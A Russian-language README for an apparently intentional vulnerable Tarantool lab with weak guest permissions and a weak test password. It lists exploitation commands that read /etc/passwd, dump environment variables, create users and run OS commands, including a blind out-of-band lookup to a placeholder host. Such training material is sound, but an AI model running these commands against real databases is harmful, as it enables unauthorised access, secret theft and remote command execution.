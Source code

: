 # Сборка Tarantool для иллюстрации ошибок конфигурации

## Описание
Сборка включает в себя 3 тестовых приложения

- Порт 3301. Приложение, где учетная запись guest имеет права на создание объектов, вызов модуля os и т.п.
- Порт 3302. Учетная запись guest ограничена в правах, но есть учетная запись test с простым паролем
- Порт 3303. Учетная запись guest ограничена в правах, остальные учетные записи имеют несловарный пароль.

## Сборка и запуск

```
docker build . -t 'missconfigured-tarantool'
docker run --net=host --rm --name missconfigured-tarantool missconfigured-tarantool
```

## Образ с Docker Hub

```
docker run --net=host --rm --name missconfigured-tarantool 0x566164696d/missconfigured-tarantool
```

## Команды tarantoolctl и примеры эксплуатации

### Ruby

Подключение под пользователем guest
```
require 'tarantool16'
tdb = Tarantool16.new host:'127.0.0.1:3301'
```
Подключение под пользователем с паролем
```
require 'tarantool16'
tdb = Tarantool16.new host:'127.0.0.1:3302', user:'test', password:'qwerty321'
```
Информация о текущем пользователе  
`tdb.call( 'box.session.user', [] )`

Детальная информация о пользователе  
`tdb.call( 'box.schema.user.info', ['myusername'])`

Получение списка пользователей  
`tdb.call( 'box.space._user:select', [] )`

Создание пользователя  
`tdb.call( 'box.schema.user.create', ['petya', {password: 'X'}] )`

Получение переменных окружения  
`tdb.call( 'os.environ', [] )`

Выполнение команд OS  
`tdb.call( 'os.execute', ['getent hosts __some_oob_servive__'] )`

### tarantoolctl

Подключение под guest  
`tarantoolctl connect 127.0.0.1:3301`

Подключение с login \ pass  
`tarantoolctl connect login:pass@127.0.0.1:3301`

Получение переменных окружения  
`echo "os.environ()" | tarantoolctl connect 127.0.0.1:3301`

Чтением локальных файлов
```
echo "fh = fio.open('/etc/passwd', {'O_RDONLY'})" | tarantoolctl connect 127.0.0.1:3301
echo "fh:pread(10000,0)" | tarantoolctl connect 127.0.0.1:3301
```

Выполнение комманд OS также работает, но в blind режиме  
`echo "os.execute('getent hosts __some_oob_servive__')" | tarantoolctl connect 127.0.0.1:3301`

## Ссылки
https://github.com/tarantool/tarantool-ruby  
https://www.tarantool.io/en/doc/1.10/book/box/authentication/  
